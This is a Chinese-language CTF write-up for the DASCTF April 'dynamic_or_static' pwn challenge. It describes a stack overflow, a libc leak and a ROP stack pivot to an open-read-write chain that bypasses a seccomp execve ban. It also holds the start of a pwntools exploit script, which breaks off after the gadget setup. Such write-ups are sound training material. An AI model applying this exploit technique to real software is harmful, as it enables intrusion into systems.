 ```yaml
---
title: DASCTF 4月赛 - dynamic_or_static 
date: 2024/4/21 23:30:00
updated: 2024/7/25 12:34:56
tags:
    - rop
excerpt: 通过栈溢出和libc泄露，绕过限制并成功读取flag。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.35-0ubuntu3.5|

## seccomp rules

<img src="/assets/dasxgf2024/seccomp.png" height="60%" width="60%">

## 解题思路

简单的栈溢出，但是禁用了execve，也不允许以下字节：`[0xf0, 0xe0, 0x80, 0x50, 0xb0]`，
为了方便绕过可以先泄露libc，拿gadget，然后回到`main`函数再做一次栈溢出，通过将rop`read`到bss上
（此时就没有限制了，可以写orw的链子到bss上）然后迁移过去就可以

> 这道题的环境疑似有问题，我的脚本3.5（指2.35-0ubuntu**3.5**）能跑，
> 放到我那3.6的容器里改改也能跑（rdx的gadget变了），升级到3.7了，3.6的脚本还能跑，
> 但是远程就是打不通，比较遗憾

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './dyna'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('node5.buuoj.cn', 28461)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.5_amd64/libc.so.6')
    elf = ELF(EXE)
    gadgets = ROP(elf)
    rdi = gadgets.rdi.address
    leave = gadgets.leave.address
```